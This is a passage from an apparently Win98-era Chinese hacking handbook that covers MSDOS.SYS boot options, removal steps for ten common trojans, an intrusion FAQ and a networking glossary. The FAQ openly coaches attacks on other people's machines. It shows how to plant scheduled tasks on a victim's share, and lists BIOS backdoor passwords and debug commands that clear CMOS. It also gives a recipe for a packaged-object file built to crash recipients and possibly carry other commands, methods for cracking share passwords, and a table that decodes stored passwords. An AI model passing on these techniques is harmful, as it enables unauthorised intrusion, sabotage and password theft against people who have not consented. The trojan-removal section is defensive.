[PATHS] 指定 Windows 的系统文件的路径。

WinDir= 这是用来指定 Win9x 各系统文件及其子目录所在目录。包括注册表文件 system.dat 和 Win9x 启动必须的驱动程序，如 HIMEM.SYS 等等。

WinBootDir= 指定 Win9x 的 GUI 启动程序 WIN.COM 所在的目录。

HostWinBootDrv= 指定 WIN.COM 所在驱动器（在这里，不用写冒号，例如 C 盘的话，就写为 C）。

UninstallDir= 指定保存原系统的目录，便于自身删除时恢复原系统。

[OPTIONS] 指定了 Windows 的启动方式，“=”前的值为缺省值。

BootLogo=1/0 允许/禁止启动时显示 Win9x 的标志（logo）。屏蔽该画面有时可解决第三方内存管理程序造成的冲突。可以看到系统启动过程中的提示信息，也可以使系统启动稍快一些。启动的时候按下 ESC 键就可以清除 Win98 的标志，查看实模式启动信息。

BootKeys=1/0 允许/禁止启动键改变启动方式。

BootGUI=1/0 启动图形界面 GUI / 仅启动 DOS7.X。

BootWin=1/0 启动 Win9x / 启动旧版 DOS。可按要求对换系统文件；当 BootWin=0 时，默认启动旧版 DOS，若此时选择启动菜单的“Previous MS-DOS version”，将启动 Win9x。

注意：BootWin 优先级别高于 BootGUI，两者冲突时，以前者为准。

BootMulti=0/1 禁止/允许双重启动，即在启动菜单中是否出现“Previous version of MS-DOS”。

从旧版本的 DOS 升级到 Win9x 的话会出现这项，并设置为 1。但对于 Win97/98 系统来说，如果不对系统进行修改，选择此项将造成系统下次无法启动（可怕哦\~\~\~）。

## 接下来，讲述一下 IO.SYS 的作用：

Win9x 的 IO.SYS 由原 DOS 的系统文件 IO.SYS、MSDOS.SYS 合并而成，提供标准的硬件输入/输出接口和 DOS 的中断调用。它基本上控制了 Win9x 启动的整个过程，是 Windows 的 DOS 实模式核心文件（很重要哦，不信的话删掉试试）。

IO.SYS 的神奇之处就在于它能根据启动功能键（就是键盘最上面的那些热键）改变启动过程，这些功能键对应的启动菜单为：

- F4：Previous MS-DOS version
- F5：Safe Mode
- Shift+F5：Command prompt only
- F6：Safe Mode with network support
- F8：启动时调出启动菜单
- Shift+F8：step-by-step confirmation

> （以上功能键是在系统启动过程中出现“starting windows 98..”的时候按下的）

IO.SYS 提供的这些启动菜单是根据用户的不同需要而设计的，因此，接下来讲一下每种启动方式的作用：

- **1. Normal**  
  正常启动模式（也是默认的启动方式）。  
  当 MSDOS.SYS 中的 BootWin=0 时，选择本项系统将启动进入旧版本的 DOS 系统。

- **2. Logged（BOOTLOG.TXT）**  
  正常启动模式，同时在根目录下会生成一个文本：BOOTLOG.TXT，这个文本中将记录启动过程中所发生的情况。这个文本也是这么多 Win9x 启动中唯一全面的诊断记录，对于检查系统中的错误很有帮助。

- **3. Safe Mode**  
  这是一个大家再熟悉不过的启动模式了，使用率应该仅次于正常启动模式。安全模式启动后也将进入 GUI 界面。  
  安全模式启动后将不加载启动程序组中的任何程序，另外也不加载 config.sys 和 autoexec.bat。这种模式启动的话，系统只会加载最最最……基本的配置以保证系统启动（一般是加载标准 VGA 模式，看上去就像没有装显卡驱动那样的模式，无声卡，无光驱等等）。可以看到，这种启动方式基本上不加载任何硬件驱动，因此这种模式启动操作系统的目的主要就是用来检查硬件问题。

- **4. step-by-step confirmation**  
  单步执行 Windows 启动的一种启动模式。当无法确认系统问题出在哪里的时候，建议使用这种方式进行启动，这样在启动过程中可以准确定位错误出现的位置。这个启动过程主要是修正 config.sys 和 autoexec.bat 中存在的问题。

- **5. Command prompt only**  
  通过这种启动方式可以进入纯 DOS 模式，但是和纯 DOS 还有一点不同，那就是这种方式启动进入的 DOS 系统会加载全部支持 Windows 启动的 DOS 驱动。这种模式下可以直接用 `win` 命令进入 Windows 的 GUI 界面。  
  在这里，主要目的就是解决一些不能在 GUI 界面下解决的问题。

- **6. Safe mode command prompt only**  
  这是一种最简单的启动模式，启动进入 DOS，而且加载的驱动少，仅仅加载最基本的 IO.SYS、MSDOS.SYS 和 COMMAND.COM 三个系统文件；不会加载默认驱动程序（HIMEM.SYS、IFSHLP.EXE 和 SETVER.EXE）以及 config.sys、autoexec.bat。  
  这种启动模式加载驱动极少，所以主要用来处理非常严重的系统故障。

- **7. Previous MS-DOS version**  
  这个就没什么好说的了，这个就是真正的 DOS 系统了。

- **8. Safe mode with network support**  
  带网络访问支持的安全模式。该选项的出现是由 MSDOS.SYS 文件中的 “Network” 参数来进行控制的。既然是支持网络访问，那么其主要作用当然就是为了解决网络系统的 PC 故障了。

### 国内十大木马查杀方法

### 1、冰河

默认服务器端程序：`G-server.exe`  
默认连接端口：7626

运行后的症状：

一旦运行 G-server，那么该程序就会在 `C:\Windows\system` 目录下生成 `Kernel32.exe` 和 `sysexplr.exe`，并删除自身。`Kernel32.exe` 在系统启动时自动加载运行，`sysexplr.exe` 和 TXT 文件关联。即使你删除了 `Kernel32.exe`，但只要你打开 TXT 文件，`sysexplr.exe` 就会被激活，它将再次生成 `Kernel32.exe`，这样，可爱的冰河又到你的爱机上了。

清除方法：

- 删除 `C:\Windows\system` 下的 `Kernel32.exe` 和 `Sysexplr.exe` 文件。
- 注册表 `HKEY_LOCAL_MACHINE\software\microsoft\windows\CurrentVersion\Run` 下，查找值为 `C:\windows\system\Kernel32.exe` 的键，找到后删除它。
- 注册表 `HKEY_LOCAL_MACHINE\software\microsoft\windows\CurrentVersion\RunServices` 下，还有键值为 `C:\windows\system\Kernel32.exe` 的，也要删除。
- 注册表 `HKEY_CLASSES_ROOT\txtfile\shell\open\command` 下的默认值，将它改为 `C:\windows\notepad.exe %1` 就恢复了关联，这样就完成了。

### 2、广外女生

默认服务端程序：这个是自动生成，名字由种马者来定。

运行后的症状：

会在系统的 SYSTEM 目录下生成一份自己的拷贝，名称为 `DIAGCFG.EXE`，并关联 EXE 文件的打开方式。如果删掉了该文件，将会导致系统所有 `.EXE` 文件无法打开。

另外，该木马会自动检查进程中是否含有“金山毒霸”“防火墙”“iparmor”“tcmonitor”“实时监控”“lockdown”“kill”“天网”等字样，如果发现就将该进程终止。

清除方法：

- 启动到纯 DOS 模式下，找到 System 目录下的 `DIAGCFG.EXE`，删除它。`DIAGCFG.EXE` 文件已经被删除了，因此在 Windows 环境下任何 `.exe` 文件都将无法运行。我们找到 Windows 目录中的注册表编辑器 `Regedit.exe`，将它改名为 `Regedit.com`。
- Windows 的 GUI 界面下，运行 Windows 目录下的 `Regedit.com` 程序（就是刚才改过的 `regedit.exe`）。
- 注册表中 `HKEY_CLASSES_ROOT\exefile\shell\open\command`，将其默认键值改成 `"%1" %*`。
- 注册表中 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices`，删除其中名称为“Diagnostic Configuration”的键值。
- Windows 界面下，将 `Regedit.com` 改回 `Regedit.exe`。

## win98部分

### 3、Netspy（网络精灵）

- 默认服务端程序：`netspy.exe`
- 默认连接端口号：`7306`
- 运行后的症状：服务端程序被执行后，会在 `C:\Windows\system` 目录下生成 `netspy.exe` 文件。同时在注册表 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` 下建立键值 `C:\Windows\system\netspy.exe`，用于在系统启动时自动加载运行。

清除方法：删除 `C:\Windows\system` 目录下的 `netspy.exe`。若无法直接删除，可先结束相关进程；也可在 DOS 下删除注册表 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` 下 `Netspy` 的键值后再清除。

### 4、SubSeven

- 默认服务端程序：`server.exe`
- 默认连接端口：`27374`
- 运行后的症状：SubSeven 服务端被执行后，会发生多处变化，每次启动的进程名都可能变化，因此查找较难。

清除方法：检查并清理 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 和 `RunService` 下异常启动项（如 `c:\windows\system\***`，文件名可变）；检查 `win.ini` 中 `run=` 后追加的可执行文件并删除；检查 `system.ini` 中 `shell=explorer.exe` 后是否跟随恶意文件并删除；重启后在 `c:\windows\system` 下删除对应木马文件。

### 5、黑洞2001

- 默认服务端程序：由使用者自己生成时而定
- 默认连接端口：`2001`
- 运行后症状：在 `c:\windows\system` 下生成两个文件，一个是 `S_Server.exe`（服务端伪装文件），另一个是 `windows.exe`（约 255,488 字节）。黑洞 2001 属于典型文件关联木马：`windows.exe` 在开机时运行并打开端口 2001，`S_Server.exe` 与 TXT 文件打开方式关联。

清除方法：将 `HKEY_CLASSES_ROOT\txtfile\shell\open\command` 与 `HKEY_LOCAL_MACHINE\Software\CLASSES\txtfile\shell\open\command` 的默认键值由 `S_SERVER.EXE %1` 改回 `C:\WINDOWS\NOTEPAD.EXE %1`；删除 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices` 下相关 `windows` 串值；清理 `HKEY_CLASSES_ROOT` 与 `HKEY_LOCAL_MACHINE\Software\CLASSES` 下 `Winvxd` 主键；在 `C:\WINDOWS\SYSTEM` 下删除 `windows.exe` 和 `S_Server.exe`。若已中毒导致文件被占用，可在 DOS 方式下将其删除，或者用进程管理软件终止 `windows.exe` 这个进程，然后再将其删除。

### 6、WAY2.4（火凤凰、无赖小子）

- 默认连接端口：`8011`
- 运行后的症状：运行后在 `C:\windows\system` 下生成 `msgsvc.exe` 文件，图标是文本文件图标，很隐蔽，文件大小 235,008 字节，文件修改时间为 1998 年 5 月 30 日，看来是想冒充系统文件 `msgsvc32.exe`。同时，WAY2.4 在注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 下建立串值 `Msgtask`，其键值为 `C:\WINDOWS\SYSTEM\msgsvc.exe`。

清除方法：要清除 WAY，只要删除它在注册表中的键值，再删除 `C:\windows\system` 下的 `msgsvc.exe` 文件即可。要注意在 Windows 下直接删除 `msgsvc.exe` 是删不掉的，此时可用进程管理工具终止其进程后再删除，或者到 DOS 下删除 `msgsvc.exe`。

### 7、初恋情人（Sweet Heart）

- 默认连接端口：`8311`
- 运行后的症状：自启动程序为 `C:\WINDOWS\TEMP\Aboutagirl.EXE`，与 TXT 关联文件 `c:\windows\system\girl.exe`。作者故意将服务端和客户端名字搞反了：压缩包内的 `gf_client.exe` 不是客户端而是服务端，`gf_server.exe` 不是服务端而是用户端。

清除方法：删除 `C:\WINDOWS\TEMP` 下的 `Aboutagirl.EXE` 文件；将 `HKEY_CLASSES_ROOT\txtfile\shell\open\command` 下的默认键值由 `girl.exe %1` 改为 `C:\WINDOWS\NOTEPAD.EXE %1`；将 `HKEY_LOCAL_MACHINE\Software\CLASSES\txtfile\shell\open\command` 下的默认键值由 `girl.exe %1` 改为 `C:\WINDOWS\NOTEPAD.EXE %1`。

### 8、网络神偷（Nethief）是第一个反弹端口型木马

清除方法：删除 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 下的键值 `internet`（其值为 `internet.exe /s`）；删除自启动程序 `C:\WINDOWS\SYSTEM\INTERNET.EXE`。

### 9、网络公牛（Netbull）

- 服务端程序：`newserver.exe`
- 默认连接端口：`234444`
- 运行后的症状：

服务端运行后会自动捆绑以下文件：  
`win9x` 下：捆绑 `notepad.exe`、`write.exe`、`regedit.exe`、`winmine.exe`、`winhelp.exe`；  
`winnt/2000` 下（在 2000 下会出现文件改动报警，但也不能阻止以下文件的捆绑）：`notepad.exe`、`regedit.exe`、`reged32.exe`、`drwtsn32.exe`、`winmine.exe`。

服务端运行后还会捆绑在开机时自动运行的第三方软件（如：`realplay.exe`、QQ、ICQ 等）上。在注册表中网络公牛也悄悄地扎下了根，如下：

```reg
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]
"CheckDll.exe"="C:\WINDOWS\SYSTEM\CheckDll.exe"

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices]
"CheckDll.exe"="C:\WINDOWS\SYSTEM\CheckDll.exe"

[HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Run]
"CheckDll.exe"="C:\WINDOWS\SYSTEM\CheckDll.exe"
```

清除方法：删除启动程序 `C:\WINDOWS\SYSTEM\CheckDll.exe`。把网络公牛在注册表中所建立的键值全部删除（上面所列键值全部删除）。检查上面列出的文件，如果发现文件长度发生变化（大约增加了 40K 左右，可以通过与其它机器上的正常文件比较得知），就删除它们。然后点击“开始→附件→系统工具→系统信息→工具→系统文件检查器”，在弹出的对话框中选中“从安装软盘提取一个文件(E)”，在框中填入要提取的文件（前面你删除的文件），点“确定”按钮，然后按屏幕提示将这些文件恢复即可。如果是开机时自动运行的第三方软件如 `realplay.exe`、QQ、ICQ 等被捆绑上了，那就得把这些文件删除，再重新安装。

### 10、聪明基因

- 默认服务端程序：`genueserver.exe`（使用 HTM 文件图标）
- 默认连接端口：`7511`
- 运行后的症状：
  - 服务端运行后会生成三个文件：`C:\WINDOWS\MBBManager.exe`、`C:\WINDOWS\Explore32.exe`、`C:\WINDOWS\system\editor.exe`，这三个文件都使用 HTM 文件图标。
  - `Explore32.exe` 用来和 HLP 文件关联（少见，很少有木马和该文件关联）。
  - `MBBManager.exe` 用来在启动时加载运行，`editor.exe` 用来和 TXT 文件关联。

清除方法：删除 `C:\WINDOWS` 下的 `MBBManager.exe` 和 `Explore32.exe`，再删除 `C:\WINDOWS\system` 下的 `editor.exe`。如果服务端已经运行，就需要用进程管理软件终止 `MBBManager.exe` 进程，然后在 Windows 下将其删除。也可到纯 DOS 下删除；`MBBManager.exe`、`editor.exe` 在 Windows 下可直接删除。

同时修改以下注册表项：

- 在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 下，删除键值 `MainBroad BackManager`（其值为 `C:\WINDOWS\MBBManager.exe`）。
- 将 `HKEY_CLASSES_ROOT\txtfile\shell\open\command` 的默认键值由 `C:\WINDOWS\system\editor.exe %1` 改回 `C:\WINDOWS\NOTEPAD.EXE %1`。
- 将 `HKEY_LOCAL_MACHINE\Software\CLASSES\txtfile\shell\open\command` 的默认键值由 `C:\WINDOWS\system\editor.exe %1` 改为 `C:\WINDOWS\NOTEPAD.EXE %1`。
- 将 `HKEY_CLASSES_ROOT\hlpfile\shell\open\command` 的默认键值由 `C:\WINDOWS\explore32.exe %1` 改回 `C:\WINDOWS\WINHLP32.EXE %1`。
- 将 `HKEY_LOCAL_MACHINE\Software\CLASSES\hlpfile\shell\open\command` 的默认键值由 `C:\WINDOWS\explore32.exe %1` 改为 `C:\WINDOWS\WINHLP32.EXE %1`。

## 第4章 入侵常见问题

在 win98 中我用流光时总是出现 DLL Loader Failed，是怎么回事？

动态连接库加载失败。这是因为使用了 for win2k 版本的流光。使用 for win98 版本的流光就不会出现这个问题了。

如何根据端口判断系统？

根据端口确定 win2k 的系统比较容易，如果看到对方开放了 TCP 端口 135，那么基本上可以确定对方为 win2k 操作系统。

针对 win98 的系统，一般是通过 139 端口来进行确认的，因为 win98 默认安装时会打开 NETBIOS 端口，因此就开放了 TCP 139 端口。但是，有些 win2k 系统也会因为需要而打开 TCP 139 端口。不过还好，因为 win2k 的 135 端口是系统自动开放的，而且除了借助第三方软件以外，基本上没有办法直接关闭 135 端口。因此，看到只开放了 135 端口，或开放了 135 和 139 端口，基本上可以确定是 win2k 操作系统；而只开放 139 端口的是 win98 系统。

使用命令 `nbtstat -a 192.168.0.56` 的时候出现了 “Host not found.”（图 4-1），怎么回事？

图 4-1

引起这个错误的原因有以下几个：

- 对方不在线。
- 对方或你没有安装 NETBEUI 协议并将 NETBIOS 绑定到 TCP/IP 上。
- 有一方安装有防火墙。

如何屏蔽路由信息？好多国外的网络屏蔽了路由信息，这是怎么实现的呢？国内的主机就比较差了，乖乖地把 IP 交出来？

做这些工作其实并不是在路由器上完成的。`tracert` 命令的使用和 `ping` 相似，都是使用 ICMP 的 echo 请求包进行检测。因此，只要在路由器前加装防火墙，并且屏蔽掉 ICMP 的 echo 请求，那么就可以做到屏蔽路由信息的目的了。

如何像入侵 win2k 一样给 win98 定时启动某些程序？

呵呵，这个问题麻烦了点。因为 win98 里没有像 win2k 一样的 `at` 命令，不过还好，win98 中带有“计划任务”功能，我们可以利用它来做点手脚。

首先，在本地计算机上指定一个计划任务（本地机也要是 win98 才可以哦），例如这里我指定了一个计划任务（图 4-2）。

图 4-2

然后我们来到 `C:\windows\Tasks` 目录下（图 4-3）（如果你的 win98 是装在 C 盘的话，不是的话就自己去找吧），在这里会看到有一个文件，仔细对比一下就知道这就是我们刚才指定的计划任务了。OK，既然到了这里，我们就把这个文件 copy 到对方的相同目录下，也就是 `C:\windows\Tasks` 目录下，这样就可以定时启动对方的某个程序了。

图 4-3

**注意：**从整个过程来说，可以很容易看出来，对方不但要共享出 win98 所在盘，而且还要有可写入权限。另外，这些还不够，如果对方没有启动计划任务也没有用，因此还要保证对方启动了计划任务才可以。

### win98 下怎么看随机启动的程序都有哪些？

在 win98 下有一个实用程序 `msconfig`，中文译为“系统配置实用程序”。

在“开始→运行”中键入 `msconfig`，回车，便会出现这个工具。在这里查看“启动”选项卡，可以看到所有前面打钩的程序都是会随机启动的程序（图 4-4）。如果不想让它随机启动，取消办法很简单，只要去掉文件名前边的钩就可以了。

图 4-4

另外，除了查看随机启动程序以外，大家还会发现这里还有几个选项卡：`config.sys`、`autoexec.bat`、`system.ini`、`win.ini`。这几个文件在 win98 中都是启动时需要检查的关键文件。这里我们以 `system.ini` 为例，查看一下 `system.ini` 选项卡，在这里将可以看到与 `system.ini` 一样的内容（图 4-5），只不过在这里用图形界面更形象地表现出来而已。

图 4-5

### 开机的时候被设置的 BIOS 密码拦住了，有没有办法破解？

方法比较多，不过说实话，实用的并不多：

#### 通用密码法

Award BIOS 通用密码：  
`j256`、`LKWPETER`、`wantgirl`、`EBBB`、`Syxz`、`aLLy`、`AWARD?SW`、`AWARD_SW`、`j262`、`HLT`、`SER`、`SKY_FOX`、`BIOSTAR`、`ALFARO_ME`、`lkwpeter`、`589721`、`awkard`、`h996`、`CONCAT`、`589589`

AMI BIOS 通用密码：  
`AMI`、`BIOS`、`PASSWORD`、`HEWITT RAND`、`AMI_SW`、`LKWPETER`、`A.M.I.`

以上是两大常见品牌 BIOS 的通用密码，如果想要使用通用口令顺利进入，需要相当好的运气才行。

#### CMOS 放电法

主板上的电池拿下来，相对需要的时间比较长。

#### 跳线短接法

和上面的原理一样，其实也是放电，不过这样做速度会比较快。

### 对方设置了 BIOS 密码，但是可以进入 Windows，只是不能进入设置 BIOS 的界面，怎么破解呢？

有两个软件 `biospwds` 和 `cmospwd`，看朋友用过，好像还不错，可以试一下。软件都是在进入 Windows 的情况下使用的。

### debug 法（两种，均可）

先进入 DOS 环境，然后使用 `debug`。

第一种：

```dos
-o 70 16
-o 71 13
-q
```

第二种：

```dos
-o 70 16
-o 71 16
-q
```

`copy` 法：

```dos
copy con cmos.com
（输入指定字符序列后保存并执行 cmos.com）
```

### win98 可否对 win2k 使用 ipc$ 连接？

不可以。在 win98 下，没有 `ipc$`（共享命名管道这个概念），所以无法与 win2k 主机建立 `ipc$` 连接。另外，win98 下的命令中也没有 `net use` 这个命令。

我们可以做一个实验：先找到一台在线的 win2k 主机，确定它在线并且确定对方没有做过修改注册表或删除 `ipc$` 等任何可能影响建立 `ipc$` 连接的动作，然后我们建立空连接：

```dos
net use \\ip\ipc$ /user:
```

等一会儿，返回信息看到的不是“命令完成”，而是报告错误（图 4-6），说什么 `user` 选项未知云云……可见，win98 对 win2k 是无法建立 `ipc$` 连接的。

## 有没有什么工具，让对方运行后就蓝屏呢？

针对 Win98 系统，有一个蓝屏的 bug（在 Win98 安全性的部分已经讲述过）。我们可以利用这点自己制作一个使对方蓝屏的工具，使用的工具就是 Word 编辑器。

首先，打开你的 Word，然后点“插入”菜单，选择“对象”，然后选择“对象包”。这时候会弹出“对象包装程序”窗口（图4-7）。

图4-7

在这个窗口里，点“导入”，然后随便选择一个文本或是程序，什么都可以，大小尽量小一点，因为这是要传给别人的，太大了传给人的话不方便。

选择完成之后，点“编辑”菜单，在这里选择“命令行”（图4-8）。

图4-8

然后出现一个命令行窗口，在这里写上 `C:\con\con`（图4-9），确定后再点文件菜单中的保存内容，完成。

图4-9

完成后，再点编辑菜单中的“复制包”，然后随便到一个地方将它复制下来。复制后的结果会看到是一个名为“片段”的东西（图4-10）。给它改个好听的名字，发给一个使用 Win98 系统的可怜孩子，很快就会见到他掉线了。

图4-10

大家也许注意到了，命令行中我们还可以插入很多其他命令，是不是很爽，随便加点什么东西，嘿嘿……不过，这个方法在 Win2K 中做过实验，好像不成功，总是会提示无法完成命令什么的，不知道是不是 Win2K 在这方面进行了加固。

> 这个能使人家蓝屏的对象包是不是很恐怖呢？其实，它的真名不是叫对象包，它的真正名字是“嵌入对象”。大家应该还注意到了，默认情况下是看不到它的后缀名的，其实它是有后缀的，它的后缀是 `.shs`。至于如何让它隐藏后缀显示出来，在 Win98 的安全性部分将有讲述。

## 入侵 Win98 的时候，想进入对方的共享，但是加密了，怎么办？

三个方法：

- 第一个办法是使用工具，有两款针对 Win98 共享密码进行清解的工具，一个是 Pqwak，还有一个是 Netpass。而且这两个工具都是针对 Win98 的 bug 进行快速破解的，速度极快。但是相比之下，Netpass 更加出色一些（我是根据大多数人的意见说的哦）。Netpass 使用非常简单，看一下界面就知道如何使用了（图4-11），不用我教了吧，所有东西都填写正确后就等着秋后收粮了。
- 第二个方法我比较喜欢，虽然速度稍慢一些，就是自己手动猜解。Win98 的共享密码漏洞就是出在验证过程中，只要是提交的密码的第一位和设置的密码的第一位相同，就认为该密码正确，就允许通过验证并进行访问。因此只要自己手动猜解的话，很快也会猜到，因为只要猜一个字符就可以了嘛。
- 第三个方法，替换 `vredir.vxd` 文件。这个文件在很多黑客软件的网站上都可以找到，网上那些都是经过修改的。只要把它放到 `c:\windows\system`（假设 Windows 安装在 C 盘）下，替换原文件，重新启动计算机，然后进入对方的共享，等到对方需要密码的时候，只要按住回车不放，如果网速够快，用不了几秒就可以进入了。

图4-11

> 有一台 Win98 主机，有一个共享加密了，也打了补丁，没办法从网上破解，怎么做？  
> 还有一点机会，不过需要你能从物理上接触它的主机。如果可以的话，那么就按照下面的方法来做吧。

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Network\LanMan`

打开注册表编辑器，来到以上位置，查看参数 `Parm1enc`，查看它的值。例如值为 `74d80e`，把它拆开来看，分为“74 d8 0e”，那么根据下表来查看，就可以知道它的共享密码是 ABC。以下表是用来查看共享密码的表格。

排列顺序依次为：代表的字符 = 第一位密码 = 第二位 = 第三位 = 第四位 = 第五位 = 第六位 = 第七位 = 第八位。

### 第一部分：英文字母

| 字符 | 值映射 |
|---|---|
| A | 74-6b-0c-e7-12-e8-95-2b |
| B | 77-c8-01-e4-11-eb-96-28 |
| C | 76-d9-0e-c9-10-ea-97-29 |
| D | 71-de-09-e2-17-ed-90-2e |
| E | 70-df-08-e3-16-ec-91-2f |
| F | 73-dc-0b-e0-15-ef-92-2c |
| G | 72-dd-0a-e1-14-ee-93-2d |
| H | 7d-d2-05-ee-1b-e1-9c-22 |
| I | 7c-d3-04-ef-1a-e0-9d-23 |
| J | 7f-d0-07-ec-19-e3-9e-20 |
| K | 7e-d1-06-ed-18-e2-9f-21 |
| L | 79-d6-01-ea-1f-e5-98-26 |
| M | 78-d7-00-eb-1e-e4-99-27 |
| N | 7b-d4-03-e8-1d-e7-9a-24 |
| O | 7a-d5-02-e9-1c-e6-9b-25 |
| P | 65-ca-1d-f6-03-f9-84-3a |
| Q | 64-cb-1c-f7-02-f8-85-3b |
| R | 67-c8-1f-f4-01-fb-86-38 |
| S | 66-c9-1e-f5-00-fa-87-39 |
| T | 61-ce-19-f2-07-fd-80-3e |
| U | 60-cf-18-f3-06-fc-81-3f |
| V | 63-cc-1b-f0-05-ff-82-3c |
| W | 62-cd-1a-f1-04-fe-83-3d |
| X | 6d-c2-15-fe-0b-f1-8c-32 |
| Y | 6c-c3-14-ff-0a-f0-8d-33 |
| Z | 6f-c0-17-fc-09-f3-8e-30 |

### 第二部分：空格和数字

| 字符 | 值映射 |
|---|---|
| 1 | 04-ab-7c-97-62-98-e5-5b |
| 2 | 07-a8-7f-94-61-9b-e6-58 |
| 3 | 06-a9-7e-95-60-9a-e7-59 |
| 4 | 01-ae-79-92-67-9d-e0-5e |
| 5 | 00-ad-78-93-66-9c-e1-3f |
| 6 | 03-ac-7b-90-65-91-e2-5c |
| 7 | 02-ad-7a-91-64-9e-e3-5b |
| 8 | 0d-a2-75-9c-6b-91-cc-52 |
| 9 | 0c-a3-74-9d-6a-90-cb-53 |
| 0 | 05-aa-7d-96-63-99-e4-5a |

| 字符 | 值映射 |
|---|---|
| / | 1a-b5-62-89-76-86-fb-45 |
| \ | 69-c6-11-fa-01-f5-88-36 |
| \| | 40-e6-31-da-21-d5-a8-16 |

根据这个表格，就可以对应出 Win98 的共享密码了。

## Win98 中存储着 Win98 密码的文件是什么文件？

Win98 中存储了密码的文件是以 `pwl` 为后缀名的文件，搜索以 `pwl` 为后缀名的文件后，使用 pwltool 就可以破解了。

不过，pwltool 比较久远了，不知道还有没有这个工具；另外，破解 Win98 的密码也是没有任何意义的事情，大家只要了解一下就好了。

## 第二部分，特殊符号部分

| 字符 | 值映射 |
|---|---|
| _ | 4b-e4-53-d8-2d-d7-aa-14 |
| - | 3b-a4-9d-c6-33-c9-b4-0a |
| [ | 14-bb-6c-87-72-88-f5-4b |
| @ | 75-da-0d-e6-13-e9-94-2a |
| # | 16-b9-6e-85-70-8a-f7-49 |
| $ | 11-be-69-82-77-8d-f0-4e |
| % | 10-bf-68-83-76-8c-f1-4f |
| ~ | 6b-c4-13-f8-0d-f7-8a-34 |
| { | 1b-b4-63-80-75-8f-f2-4c |
| ` | 1f-b0-67-84-79-8b-fe-40 |
| ( | 1d-b2-65-86-7b-89-fc-42 |
| ) | 1c-b3-64-8f-7a-80-fd-43 |
| * | 18-b7-60-8b-7e-84-f9-47 |
| + | 1e-b1-66-8d-78-82-ff-41 |
| < | 6a-c5-12-f9-0c-f6-8b-35 |
| > | 08-a7-70-9b-6e-94-e9-57 |
| ] | 09-a6-71-9a-6f-95-e8-56 |
| } | 68-c7-10-fb-0e-f4-89-37 |
| ; | 4c-e1-36-dd-28-d2-af-11 |
| : | 48-e7-30-db-2e-d4-a9-17 |
| " | 0e-a1-76-9d-68-92-ef-51 |
| ' | 0f-a0-77-9c-69-93-ee-50 |
| , | 12-bd-6a-81-74-8e-f3-4d |
| . | 17-b8-6f-84-71-8b-f6-48 |
| ? | 19-b6-61-8a-7f-85-f8-46 |
| < | 09-a6-71-9a-6f-95-e8-56 |
| （缺失） | 1b-b4-63-88-7d-87-fa-44 |
| - | 0b-a4-73-98-6b-97-ea-54 |
| ? | 0a-a5-72-99-6c-96-eb-55 |

## 第5章 常见名词解析

### 什么是路由器？

路由器，Router。路由器这个设备应该是在网络上使用率最高的设备了，它的主要作用就是路由选路，将 IP 数据包正确地送到目的地，因此也叫 IP 路由器。打个比方来说，它的作用就好像我们的邮局，当你把信（数据包）写上地址（封装上 IP 包头，里面含有目的地址）并投递后，邮局（路由器）就会根据目的地址（目的地的 IP）来选择如何将信（数据包）投递并送到正确的位置（目的地址）。

### 什么是交换机？

交换机，Switch。交换机分为第二层交换机和第三层交换机两种，现在最常用的就是第三层交换机了，它包括了路由器的全部功能，因此现在越来越多地方的路由器正被第三层交换机所取代。第二层交换机则是较低级的，不需要高级的协议支持，直接对硬件地址进行交换，而不需要 IP 地址。

### 什么是网关？

网关，Gateway。它的主要作用就是起到一个翻译的作用。例如，我们最常见的情况就是将网关放在一个局域网的出口位置，然后整个局域网的机器都依靠这个网关与外界通信。实际上，局域网内的数据格式和 Internet 上的格式是不一样的，如何使这两种使用不同格式的网络进行沟通，这就是网关的工作了。

### 什么叫中继器？

中继器，Repeater，是用来放大信号的。所有的电缆，即使是光纤，也不可能没有一点衰减。尤其是现在使用的双绞线，一般都在百米或更长一点的位置，信号就衰减相当大了，因此非常容易引起数据包丢失或是有错误数据等情况。因此，在一些必要的地方加上中继器，这样就可以对已经衰减的信号进行放大了。

但是，中继器有一个缺点，它只是对信号单纯地放大，而不去判断该信号是否为真正要传输的正确信号。这样，就连错误的数据或是噪音也会一起被放大。

### 什么是噪音？

在网络中的“噪音”和我们平时所说的噪音是不一样的。在网络中，噪音可以是任何影响数据传输的信号或是其他什么。例如，在一根电缆边上有东西会产生磁场而影响数据的正确传输，我们这就可以说是受到了噪音的影响。

### 什么是集线器？

集线器，Hub，是网络上最简单的设备。在一些家庭网络或是只有十几台主机的小网络中也是最常用的设备。只是简单地把线缆连接在一起，没有任何其他作用。也不能像路由器那样转发数据，它对数据的发送是属于广播模式的，一个端口上接收到的数据，它将把该数据广播到所有的端口上。这样，数据包就会经过所有的主机，因此这样的网络对于嗅探（sniff）监听来说非常有利。

### 什么是网桥？

网桥，Bridge。是一个不需要高级协议就可以转发数据的设备，依靠物理地址来识别主机并实现数据包的转发，它要比集线器高级得多。它可以正确地将数据发送到某一台主机。

在稍大型的局域网中，使用网桥可以说是最好的选择了。

### 什么是 LAN？

Local Area Network，局域网。早期定义是在一个很小的范围内组成的一个网络，就可以叫做局域网。但是现在好像已经没有那么严格的定义了，像一些稍大型的企业，他们的网络遍及整栋大楼，但这样也是一个局域网。大学校园网络，范围也是很广，但是也是属于一个局域网。

### 什么是 WAN？

Wide Area Network，广域网。相对局域网而言的。例如，一个城区、一个城市，或是整个的 Internet，这都是广域网。

### 什么是 VLAN？

